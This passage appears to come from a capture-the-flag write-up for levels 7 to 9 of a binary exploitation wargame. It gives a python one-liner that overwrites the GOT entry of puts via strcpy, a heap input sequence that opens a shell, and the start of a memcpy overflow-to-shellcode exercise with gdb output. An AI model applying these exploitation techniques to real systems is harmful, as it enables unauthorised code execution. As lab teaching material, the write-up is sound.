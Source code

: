 The first `strcpy` has an offset of 20. After 20 characters, it erases the address `0x0804a038` that is the destination pointer of the second `strcpy`

The solution: we have to replace the puts-function address with the m-function address with:

- argv[1]: PADDING[20] + the address where we want to write: _the puts-function address in GOT:_ `0x08049928`
- argv[2]: the value we want to write: _the m-function address_: `080484f4`

```shell
~/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

---

## Level8 - Long main

Program accepts 4 inputs: `auth`, `reset`, `service`, `login`

To access to the shell, the byte at `*auth + 0x20` has to be not null.
`0x804a008 + 0x20` => `0x804a028`

### Resolve

```shell
# Define auth
~/level8
> (nil), (nil) # auth, service
auth a
> 0x804a008, (nil)  # auth, service
service     # or service0123456789abcdef
> 0x804a008, 0x804a018  # auth, service
service
> 0x804a008, 0x804a028 # auth, service
login
$
```

Other solution: write a string big enough to erase the address `0x804a028`: (`0x804a028 - 0x804a010 = 0x10` => 16 bytes)
`service0123456789abcdef`

---

## Level9 - Read asm of CPP file

We can see a function `N::setAnnotation(char*)`, that uses `memcpy` and then the register `edx` is executed.

The idea is to use `memcpy` to create a buffer overflow and then execute a shellcode.

### Resolve

```shell
pset arg cyclic_pattern(200)
run
pattern search
  EAX+0 found at offset: 108

b*main+136 # after setAnnotation
run AAAA
x/30x 0x0804a00c
(...)
gdb-peda$ x/x 0x08048848
  0x8048848 <_ZTV1N+8>:   0x0804873a
gdb-peda$ x/x 0x0804873a
  0x804873a <_ZN1NplERS_>: 0x8be58955
```